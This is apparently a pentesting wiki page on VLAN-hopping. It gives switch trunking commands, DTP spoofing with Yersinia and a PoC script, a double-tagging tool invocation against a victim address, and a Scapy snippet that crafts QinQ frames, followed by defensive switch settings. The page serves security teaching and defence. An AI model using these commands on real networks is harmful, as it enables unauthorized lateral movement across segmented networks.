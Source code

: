 # Lateral VLAN Segmentation Bypass

{{#include ../../banners/hacktricks-training.md}}

If direct access to a switch is available, VLAN segmentation can be bypassed. This involves reconfiguring the connected port to trunk mode, establishing virtual interfaces for target VLANs, and setting IP addresses, either dynamically (DHCP) or statically, depending on the scenario (**for further details check [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)).**

Initially, identification of the specific connected port is required. This can typically be accomplished through CDP messages, or by searching for the port via the **include** mask.

**If CDP is not operational, port identification can be attempted by searching for the MAC address**:

```
SW1(config)# show mac address-table | include 0050.0000.0500
```

Prior to switching to trunk mode, a list of existing VLANs should be compiled, and their identifiers determined. These identifiers are then assigned to the interface, enabling access to various VLANs through the trunk. The port in use, for instance, is associated with VLAN 10.

```
SW1# show vlan brief
```

**Transitioning to trunk mode entails entering interface configuration mode**:

```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```

Switching to trunk mode will temporarily disrupt connectivity, but this can be restored subsequently.

Virtual interfaces are then created, assigned VLAN IDs, and activated:

```bash
sudo vconfig add eth0 10
sudo vconfig add eth0 20
sudo vconfig add eth0 50
sudo vconfig add eth0 60
sudo ifconfig eth0.10 up
sudo ifconfig eth0.20 up
sudo ifconfig eth0.50 up
sudo ifconfig eth0.60 up
```

Subsequently, an address request is made via DHCP. Alternatively, in cases where DHCP is not viable, addresses can be manually configured:

```bash
sudo dhclient -v eth0.10
sudo dhclient -v eth0.20
sudo dhclient -v eth0.50
sudo dhclient -v eth0.60
```

Example for manually setting a static IP address on an interface (VLAN 10):

```bash
sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```

Connectivity is tested by initiating ICMP requests to the default gateways for VLANs 10, 20, 50, and 60.

Ultimately, this process enables bypassing of VLAN segmentation, thereby facilitating unrestricted access to any VLAN network, and setting the stage for subsequent actions.

---

## Other VLAN-Hopping Techniques (no privileged switch CLI)

The previous method assumes authenticated console or Telnet/SSH access to the switch.  In real-world engagements the attacker is usually connected to a **regular access port**.  The following Layer-2 tricks often let you pivot laterally without ever logging into the switch OS:

### 1. Switch-Spoofing with Dynamic Trunking Protocol (DTP)

Cisco switches that keep DTP enabled will happily negotiate a trunk if the peer claims to be a switch.  Crafting a single **DTP “desirable”** or **“trunk”** frame converts the access port into an 802.1Q trunk that carries *all* allowed VLANs.

*Yersinia* and several PoCs automate the process:

```bash
# Become a trunk using Yersinia (GUI)
$ sudo yersinia -G          # Launch GUI → Launch attack → DTP → enabling trunking

# Python PoC (dtp-spoof)
$ git clone https://github.com/fleetcaptain/dtp-spoof.git
$ sudo python3 dtp-spoof/dtp-spoof.py -i eth0 --desirable
```

Once the port switches to trunk you can create 802.1Q sub-interfaces and pivot exactly as shown in the previous section.  Modern Linux kernels no longer require *vconfig*; instead use *ip link*:

```bash
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.30 type vlan id 30
sudo ip addr add 10.10.30.66/24 dev eth0.30
sudo ip link set eth0.30 up
```

### 2. Double-Tagging (Native-VLAN Abuse)

If the attacker sits on the **native (untagged) VLAN**, a crafted frame with *two* 802.1Q headers can "hop" to a second VLAN even when the port is locked in access mode.  Tooling such as **VLANPWN DoubleTagging.py** (2022-2024 refresh) automates the injection:

```bash
python3 DoubleTagging.py \
        --interface eth0 \
        --nativevlan 1 \
        --targetvlan 20 \
        --victim 10.10.20.24 \
        --attacker 10.10.1.54
```

Packet walk-through:
1. Outer tag (1) is stripped by the first switch because it matches the native VLAN.
2. Inner tag (20) is now exposed; the frame is forwarded onto the trunk towards VLAN 20.

The technique still works in 2025 on networks that leave the native VLAN at the default and accept untagged frames .

### 3. QinQ (802.1ad) Stacking

Many enterprise cores support *Q-in-Q* service provider encapsulation.  Where permitted, an attacker can tunnel arbitrary 802.1Q-tagged traffic inside a provider (S-tag) to cross security zones.  Capture for 802.1ad ethertype 0x88a8 and attempt to pop the outer tag with Scapy:

```python
from scapy.all import *
outer = 100      # Service tag
inner = 30       # Customer / target VLAN
payload = Ether(dst="ff:ff:ff:ff:ff:ff")/Dot1Q(vlan=inner)/IP(dst="10.10.30.1")/ICMP()
frame = Dot1Q(type=0x88a8, vlan=outer)/payload
sendp(frame, iface="eth0")
```

---

## Defensive Recommendations

1. Disable DTP on all user-facing ports: `switchport mode access` + `switchport nonegotiate`.
2. Change the native VLAN on every trunk to an **unused, black-hole VLAN** and tag it:  `vlan dot1q tag native`.
3. Prune unnecessary VLANs on trunks: `switchport trunk allowed vlan 10,20`.
4. Enforce port security, DHCP snooping & dynamic ARP inspection to limit rogue Layer-2 activity.
5. Prefer private-VLANs or L3 segmentation instead of relying solely on 802.1Q separation.

---

## References

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)
- VLANPWN attack toolkit – <https://github.com/casterbytethrowback/VLANPWN>
- Twingate "What is VLAN Hopping?" (Aug 2024) – <https://www.twingate.com/blog/glossary/vlan%20hopping>

{{#include ../../banners/hacktricks-training.md}}
